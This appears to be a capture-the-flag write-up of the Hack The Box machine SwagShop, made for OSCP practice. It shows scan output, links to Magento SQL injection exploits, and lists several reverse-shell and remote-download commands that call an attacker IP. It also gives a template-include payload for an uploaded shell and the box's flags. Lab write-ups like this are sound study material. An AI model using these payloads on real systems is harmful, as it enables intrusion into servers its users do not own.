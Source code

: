 # SWAGSHOP / OSCP PREP

![](../.gitbook/assets/ee982615c8ec40b3a8902cb2afd613e4.png)

## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgTCefp89MPJm2oaJqietdslSBur+eCMVQRW19iUL2DQSdZrIctssf/ws4HWN9DuXWB1p7OR9GWQhjeFv+xdb8OLy6EQ72zQOk+cNU9ANi72FZIkpD5A5vHUyhhUSUcnn6hwWMWW4dp6BFVxczAiutSWBVIm2YLmcqwOEOJhfXLVvsVqu8KUmybJQWFaJIeLVHzVgrF1623ekDXMwT7Ktq49RkmqGGE+e4pRy5pWlL2BPVcrSv9nMRDkJTXuoGQ53CRcp9VVi2V7flxTd6547oSPck1N+71Xj/x17sMBDNfwik/Wj3YLjHImAlHNZtSKVUT9Ifqwm973YRV9qtqtGT
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEG18M3bq7HSiI8XlKW9ptWiwOvrIlftuWzPEmynfU6LN26hP/qMJModcHS+idmLoRmZnC5Og9sj5THIf0ZtxPY=
|   256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINmmpsnVsVEZ9KB16eRdxpe75vnX8B/AZMmhrN2i4ES7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
```

## PORT 80 ENUMERATION

### GOBUSTER ENUMERATION

```text
/index.php (Status: 302)
/media (Status: 301)
/clear.php (Status: 200)
/includes (Status: 301)
/lib (Status: 301)
/install.php (Status: 200)
/app (Status: 301)
/js (Status: 301)
/api.php (Status: 200)
/shell (Status: 301)
/skin (Status: 301)
/cron.php (Status: 200)
/var (Status: 301)
/errors (Status: 301)
/mage (Status: 200)
/server-status (Status: 403)
```

### NIKTO

```text
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: http://swagshop.htb/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Magento Go CMS
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OSVDB-3268: /app/: Directory indexing found.
+ OSVDB-3092: /app/: This might be interesting...
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3268: /lib/: Directory indexing found.
+ OSVDB-3092: /lib/: This might be interesting...
+ OSVDB-3092: /install.php: install.php file found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /RELEASE_NOTES.txt: A database error may reveal internal details about the running database.
+ /RELEASE_NOTES.txt: Magento Shop Changelog identified.
+ /skin/adminhtml/default/default/media/editor.swf: Several Adobe Flash files that ship with Magento are vulnerable to DOM based Cross Site Scripting (XSS). See http://appcheck-ng.com/unpatched-vulnerabilites-in-magento-e-commerce-platform/
+ /skin/adminhtml/default/default/media/uploader.swf: Several Adobe Flash files that ship with Magento are vulnerable to DOM based Cross Site Scripting (XSS). See http://appcheck-ng.com/unpatched-vulnerabilites-in-magento-e-commerce-platform/
+ /skin/adminhtml/default/default/media/uploaderSingle.swf: Several Adobe Flash files that ship with Magento are vulnerable to DOM based Cross Site Scripting (XSS). See http://appcheck-ng.com/unpatched-vulnerabilites-in-magento-e-commerce-platform/
+ 7915 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2021-01-31 21:46:07 (GMT-5) (629 seconds)
```

* MAGENTO SHOP

![](../.gitbook/assets/ece3f1c3d0324cbabcc338c897c9ab52.png)

![](../.gitbook/assets/b1827706cde0440cb1de1b2a95f0bf9b.png)

## EXPLOIT

[https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py)

![](../.gitbook/assets/5b20ef80b99e403c8d052bf287c9acf1.png)

![](../.gitbook/assets/d6f44ac368b6451b8ac91f5dea93b170.png)

[https://www.exploit-db.com/exploits/37811](https://www.exploit-db.com/exploits/37811)

#### TRYS

```text
python2 magento.py http://10.129.1.182 \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 2332 >/tmp/f\"  


python2 magento.py http://10.129.1.182/index.php/admin \"wget -O /var/www/html/shell/shell.php http://10.10.14.72:8000/shell.php\"

echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 2332 >/tmp/f");' >> shell.php.png

https://0xrick.github.io/hack-the-box/swagshop/

python 37811.py 'http://10.129.1.182/index.php/admin' 'bash -c "bash -i >& /dev/tcp/10.10.14.72/2332 0>&1"'
```

### THE WINNER

[https://fubared.net/htb/machines/htb-swagshop.html](https://fubared.net/htb/machines/htb-swagshop.html)

[https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)

```text
{{block type='core/template' template='../../../../../../media/catalog/category/shell.jpg'}}
```

## PRIVESC

![](../.gitbook/assets/8e16bc7e434a4692a3cd79755c759e68.png)

![](../.gitbook/assets/1ba1f47c39cd4f728ef37e4f47a9e0fe.png)

![](../.gitbook/assets/e1c6286c5ea94c5781d6e3b17211b684.png)

## FLAGS

### USER

```text
a448877277e82f05e5ddf9f90aefbac8
```

### ROOT

```text
c2b087d66e14a652a3b86a130ac56721
```

